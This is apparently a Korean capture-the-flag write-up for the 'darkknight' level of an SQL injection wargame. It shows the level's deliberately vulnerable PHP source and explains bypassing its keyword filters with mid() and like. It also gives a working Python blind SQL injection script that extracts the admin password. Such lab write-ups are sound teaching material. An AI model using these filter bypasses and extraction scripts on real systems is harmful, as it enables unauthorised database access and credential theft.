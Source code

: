 ## Darknight
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
### exploit
**'** , **substr** , **ascii** , **=** 을 필터링하고 있다.

필터링에 주의하며 앞선 Orc, Orge문제와 같이 파이썬 코드를 사용하면 된다.

' : ", substr() : mid() , = : like를 사용해서 우회 할 수 있다.
```python
import requests

url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
cookie = {'PHPSESSID': 'cookie 값'}

for i in range(20):
  param = {'no': f'"" || length(pw) like {i}#'}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'no': f'"" || mid(pw, {str(len)}, 1) like "{chr(pw)}"#'}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password.lower())
```
